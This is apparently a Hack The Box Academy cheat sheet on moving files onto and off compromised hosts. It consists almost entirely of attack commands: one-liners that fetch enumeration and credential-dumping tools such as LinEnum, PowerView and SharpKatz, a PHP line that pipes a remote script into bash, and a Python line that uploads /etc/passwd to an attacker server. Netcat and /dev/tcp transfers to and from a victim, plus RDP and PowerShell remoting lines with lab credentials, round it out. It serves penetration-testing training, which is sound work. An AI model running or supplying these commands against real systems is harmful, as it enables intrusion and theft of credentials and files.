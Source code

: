 
## Download
#### Python
```shell
h@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

```shell
h@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### PHP
```shell
h@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

```shell
h@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

```shell
h@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

#### Ruby
```shell
h@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

```shell
h@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

#### JS
Create wget.js:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
Run:
```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

#### VB
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload

```shell
h@htb[/htb]$ python3 -m uploadserver 
```

```shell
h@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

## Misc

Recieve
```shell-session
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

```shell-session
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

```shell-session

victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe

```

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

Send
```shell-session
jabrach@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell-session
jabrach@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell-session
jabrach@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell-session
jabrach@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### PowerShell Session File Transfer
```powershell-session
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```powershell-session
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

```powershell-session
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

#### RDP

```shell-session
jabrach@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

```shell-session
jabrach@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```


